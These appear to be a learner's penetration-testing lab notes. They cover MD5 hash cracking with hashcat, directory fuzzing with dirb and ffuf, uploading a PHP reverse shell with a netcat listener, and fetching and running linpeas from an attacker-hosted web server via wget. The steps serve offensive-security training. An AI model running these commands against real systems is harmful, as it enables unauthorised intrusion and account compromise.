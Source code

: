 #### Hashcat
- runs off of GPUs, best to run on base OS to utilize graphics card
	- if run in VM, will use CPU (virtualized gpu) - will be a lot slower
```bash
locate rockyou.txt #gives path for file
gedit hashes.txt #copy and paste hash from ftp into .txt
#start hashcat: parameters = module 0 correlates to MD5, provide hash text file, provide wordlist to use
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
>>#cracked hash = student
```
- password = student

**Directories**
#### dirb
```bash
dirb [insert IP of webserver]
#will list out all directories and everything inside, may take a while
```

#### ffuf
```bash
apt install ffuf #install
ffuf -w /usr/share/wordlists/dirbuster/directory-list2.3-medium:FUZZ -u http://192.168.138.129/FUZZ #can autotab to select list, set fuzz parameter to target web server

#unlike dirb, only goes one level deep

```

go to newly discovered subdirectory in browser: `academy`
- `192.168.138.129/academy`
- copy registration number from ftp note
- copy password from cracked hash
- poke around to see all the webapp features, think how can we exploit any vulns based on what they are using
- see if file upload system has checks, view image to see where its being stored 
	- google php reverse shell >> https://github.com/pentestmonkey/php-reverse-shell
	- can copy raw >> create file in kali , shell.php
		- gedit, nano, or mousepad >> follow txt, need to change IP and port
	- set up listener on assigned port `nc -nvlp 1234`
	- upload shell.php file on webserver >> check listener for shell
		- `whoami` >> not admin
		- is sudo there: sudo -l, which sudo, locate sudo >> no
		- need to do privesc

#### linpeas - Linux Privesc
used for linux privesc checks
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Transfer Directory
- in kali, make `transfer` directory >> cd into it
	- create linpeas.sh file >> copy raw from github
- standup webserver
```bash
python3 -m http.server 80
```
Back to NC / listener
```bash
cd /tmp
pwd #to check
wget [your attacker IP]/linpeas.sh #loading linpeas script onto target webserver
ls #to check 
chmod +x linpeas.sh #making the script executable
./linpeas.sh #run script

```